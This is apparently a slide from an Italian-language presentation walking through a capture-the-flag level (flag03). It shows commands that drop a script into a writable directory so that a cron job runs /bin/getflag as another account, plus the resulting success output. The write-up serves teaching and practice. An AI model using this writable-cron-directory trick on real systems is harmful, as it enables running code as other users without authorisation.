

La nostra
strategia

Creiamo un file nella directory writable.d  in cui scriviamo il comando /bin/getflag.

>> echo "/bin/getflag > /home/flag03/output" > /home/flag03/writable.d/sol3
Attendiamo che cron esegua writable.sh

>> cat /home/flag03/output
You have successfully executed getflag on a target account